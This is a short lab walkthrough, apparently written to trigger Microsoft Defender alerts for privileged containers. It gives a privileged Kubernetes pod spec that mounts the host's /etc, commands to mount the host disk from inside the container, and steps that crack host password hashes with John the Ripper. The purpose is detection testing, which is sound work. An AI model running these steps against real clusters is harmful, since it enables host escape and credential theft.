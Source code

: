 # Privileged Container Detected

Machine logs indicate that a privileged Docker container is running. A privileged container has a full access to the host's resources. If compromised, an attacker can use the privileged container to gain access to the host machine

we will show how within a privilege container and no restrictions from the unerlaying node, we can mount a volume from the node
As privilege container, we can get into the mounted volume and access the /etc and crack the passwords with john the rieper 

we will create a privileged pod as this

```
apiVersion: v1
kind: Pod
metadata:
  name: security-context-demo
spec:
  volumes:
  - name: sec-ctx-vol
    hostPath:
      path: /etc
  containers:
  - name: sec-ctx-pod
    image: nginx
    command: [ "sh", "-c", "sleep 999" ]
    volumeMounts:
    - name: sec-ctx-vol
      mountPath: /data
    securityContext:
      privileged: true
```

we access the running container

```
kubectl exec -it <name-of-priv-container> -- /bin/bash
```
Now we will try to mount the volumes from the host OS into the container, in a privileged container this is possible not in a normal container

```
 mount /dev/sda1 /mtn
 ```

```
cd /mnt/etc
```
 In a priv container we can get into the /etc and crack the passwords with john the reaper!

 ```
 apt-get install john
 ```

 ```
 unshadow passwd shadow > /tmp/unshadow
 ```
```
cd /tmp
```
```
john unshadow 
```

Now, wait until Defender creates one alert for the detection of a Container with a sensitive volume mount detected

![sesitive mount](/images/sensitive-mount.png)


Also, Defender will create another alert for Privileged container detected

![credential-dumping](/images/priv-container.png)